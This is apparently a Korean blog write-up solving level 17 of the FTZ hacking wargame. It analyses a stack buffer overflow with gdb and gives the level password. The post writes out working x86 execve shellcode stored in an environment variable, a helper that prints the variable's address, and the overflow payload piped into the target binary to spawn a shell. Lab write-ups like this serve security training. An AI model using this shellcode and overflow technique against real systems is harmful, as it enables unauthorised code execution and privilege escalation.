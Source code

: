 ```yaml
---
title:  "[FTZ] level 17"

categories: ftz
tags: [ftz]

toc: true
toc_sticky: true

date: 2021-12-20 07:02:59

---
```


# level 17

**level17 / king poetic**

힌트

![image](https://user-images.githubusercontent.com/69203345/146723724-cbb3dee9-75b5-4d32-819c-fc94d520c286.png)

shell 함수가 사라짐  
shell 코드를 환경변수에 넣고 printit대신 나오게하면 될것..?

바로 gdb로 분석

![image](https://user-images.githubusercontent.com/69203345/146724338-149c952b-ecf7-48c5-b379-c34befcb3d23.png)


낮은주소 

buf[20] [ebp-56]  
dummy[20]  
*call[4] [ebp-16]  
crap[4]+dummy[8]  
sfp[4]  
ret[4]

높은주소

이번에도 주소는 이런식일 것이다  
/tmp 로 이동해서 실행하겠다

환경변수 설정
> export EGG=\`python -c 'print "\x90"*15+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"'`  
> echo 'int main() { printf("ADDR -> 0x%x\n", getenv("EGG")); } ' > getenv.c  
> gcc getenv.c -o getenv

![image](https://user-images.githubusercontent.com/69203345/146725358-8c3e0f65-b255-4568-a247-39a8a6a985d1.png)

나온 주소를 페이로드에 사용  
> (python -c 'print"A"*40+"\x9b\xfc\xff\xbf"' ; cat) | ./attackme

![image](https://user-images.githubusercontent.com/69203345/146725655-098c06ff-e42c-4c0b-a86d-9bca3730a350.png)